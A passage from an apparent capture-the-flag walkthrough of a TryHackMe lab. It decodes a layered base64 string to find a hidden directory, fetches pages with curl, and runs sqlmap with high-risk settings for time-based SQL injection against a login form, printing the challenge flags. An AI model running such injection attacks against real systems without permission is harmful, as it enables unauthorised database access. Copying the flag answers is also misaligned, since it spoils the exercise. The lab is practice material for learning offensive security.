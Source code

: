 ~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/CTF_collection_Vol.2]
└─$ urlencode -d $(echo "VlNCcElFSWdTQ0JKSUVZZ1dTQm5JR1VnYVNCQ0lGUWdTU0JFSUVrZ1p5QldJR2tnUWlCNklFa2dSaUJuSUdjZ1RTQjVJRUlnVHlCSklFY2dkeUJuSUZjZ1V5QkJJSG9nU1NCRklHOGdaeUJpSUVNZ1FpQnJJRWtnUlNCWklHY2dUeUJUSUVJZ2NDQkpJRVlnYXlCbklGY2dReUJDSUU4Z1NTQkhJSGNnUFElM0QlM0Q=" | base64 -d) | base64 -d | sed "s/\ //g" | base64 -d | sed "s/\ //g" | base64 -d
DesKel_secret_base
~~~

What we get is a directory. After navigating to it, you can see the 2nd easter:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/CTF_collection_Vol.2]
└─$ curl -s "http://$IP/DesKel_secret_base/" | html2text 
****** A slow clap for you ******
[kim.png]
Not bad, not bad.... papa give you a clap
Easter 2: THM{f4ll3n_b453}
~~~

Easter 2: `THM{f4ll3n_b453}`

## Easter 3

Hint: Directory buster with common.txt might help.

If you navigate to `/login`, you can see the 3rd easter in the source code:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/CTF_collection_Vol.2/files]
└─$ curl -s "http://$IP/login/" | html2text | head -n5

Seriously! You think the php script inside the source code? Pfff.. take this
easter 3: THM{y0u_c4n'7_533_m3}
****** Just an ordinary login form! ******
You don't need to register yourself
~~~

Easter 3: `THM{y0u_c4n'7_533_m3}`

## Easter 4

Hint: time-based sqli

We need to use `sqlmap` for this one, but we need to save the request first. To do so, we should intercept a POST request using `burpsuite` in `/login` then right click and choose "Save item" and save the request.

Now let's start working with `sqlmap`. First we need to find the database:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/CTF_collection_Vol.2/files]
└─$ sqlmap -r req.xml --current-db --batch --risk=3 --level=5 

[REDACTED]

[07:26:26] [INFO] retrieved: THM_f0und_m3
current database: 'THM_f0und_m3'
~~~
